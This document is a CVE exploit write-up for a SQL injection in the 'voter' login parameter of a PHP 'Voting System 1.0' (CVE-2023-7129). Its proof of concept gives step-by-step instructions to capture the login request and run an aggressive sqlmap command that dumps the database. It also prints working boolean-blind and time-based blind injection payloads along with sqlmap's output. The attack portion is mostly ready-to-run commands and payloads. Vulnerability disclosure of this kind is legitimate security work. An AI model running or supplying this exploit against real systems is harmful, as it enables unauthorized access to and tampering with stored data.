 # CVE-2023-7129_Voting_System-SQL_Injection-2
+ **Exploit Title:** CVE-2023-7129_Voting_System-SQL_Injection-2
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/voting-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/02/VOTING_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** CVE-2023-7129

## References: 
+ **CVE-2023-7129:** https://vuldb.com/?id.249132
+ https://www.cve.org/CVERecord?id=CVE-2023-7129
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7129
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7129

## Description:
Voting System 1.0 allows SQL Injection via parameter 'voter' in "/votesystem/". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the voters login page: "http://localhost/votesystem/"
+ Fill the voter id and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Use sqlmap to exploit. In sqlmap, use 'voter' parameter to dump the database. 
```
sqlmap -r r.txt -p voter --risk 3 --level 5 --threads 1 --random-agent tamper=between, randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: voter (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: voter=11111' OR NOT 1116=1116-- lQWF&password=pass&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: voter=11111' AND (SELECT 4895 FROM (SELECT(SLEEP(5)))tJOZ)-- AnqV&password=pass&login=
---
[18:59:39] [INFO] testing MySQL
[18:59:39] [INFO] confirming MySQL
[18:59:39] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[18:59:39] [INFO] fetching current database
[18:59:39] [INFO] resumed: votesystem
current database: 'votesystem'
```

+ current database: `votesystem`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/c0550210-c182-4df0-a091-73366fbaa1f2)
